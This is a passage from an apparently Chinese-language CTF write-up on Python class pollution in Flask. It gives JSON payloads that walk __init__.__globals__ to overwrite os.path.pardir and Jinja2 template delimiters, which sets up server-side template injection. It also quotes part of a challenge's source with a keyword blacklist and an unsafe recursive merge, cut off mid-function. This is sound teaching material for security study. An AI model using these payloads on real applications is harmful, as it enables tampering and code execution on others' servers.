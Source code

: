 这里是利用特性

```python
payload={
    "__init__":{
        "__globals__":{
            "os":{
                "path":{
                    "pardir":","
                }
            }
        }
    }
}
```

#### SSTI jinja2污染

这里就只贴出恶意链，不具体分析了，其实就是走的ssti的底层，去改掉模板的标识符

```python
{
    "__init__" : {
        "__globals__" : {
            "app" : {
                    "jinja_env" :{
"variable_start_string" : "[[","variable_end_string":"]]"
}        
            }
        }
    }
```

赛题
==

CTFshow西瓜杯
----------

```python
from flask import Flask, session, redirect, url_for,request,render_template
import os
import hashlib
import json
import re
def generate_random_md5():
    random_string = os.urandom(16)
    md5_hash = hashlib.md5(random_string)

    return md5_hash.hexdigest()
def filter(user_input):
    blacklisted_patterns = ['init', 'global', 'env', 'app', '_', 'string']
    for pattern in blacklisted_patterns:
        if re.search(pattern, user_input, re.IGNORECASE):
            return True
    return False
def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
```